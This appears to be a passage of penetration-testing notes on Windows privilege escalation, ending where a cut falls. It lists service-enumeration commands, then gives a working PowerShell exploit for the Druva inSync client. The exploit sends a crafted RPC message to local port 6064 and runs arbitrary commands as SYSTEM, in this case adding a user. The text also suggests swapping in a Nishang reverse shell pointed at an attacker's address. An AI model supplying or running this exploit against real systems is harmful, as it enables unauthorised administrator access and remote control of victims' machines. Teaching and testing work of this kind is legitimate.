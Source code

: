 ```





                        //Vulnerable Services

        


        -Enumerating Installed Programs

        C:\> wmic product get name

        -Enumerating Local Ports


        C:\> netstat -ano | findstr 6064

        -Enumerating Process ID

        PS C:\> get-process -Id 3324

        -Enumerating Running Service

        PS C:\> get-service | ? {$_.DisplayName -like 'Druva*'}



        -Druva inSync Windows Client Local Privilege Escalation Example


        $ErrorActionPreference = "Stop"

        $cmd = "net user pwnd /add"

        $s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
        )
        $s.Connect("127.0.0.1", 6064)

        $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
        $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
        $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
        $length = [System.BitConverter]::GetBytes($command.Length);

        $s.Send($header)
        $s.Send($rpcType)
        $s.Send($length)
        $s.Send($command)


        For our purposes, we want to modify the $cmd variable to our desired command. We can do many things here, such as adding a local admin user (which is a bit noisy, and we want to avoid modifying things on client systems wherever possible) or sending ourselves a reverse shell. Let's try this with Invoke-PowerShellTcp.ps1. Download the script to our attack box, and rename it something simple like shell.ps1. Open the file, and append the following at the bottom of the script file (changing the IP to match our address and listening port as well):
        (  https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1  )

```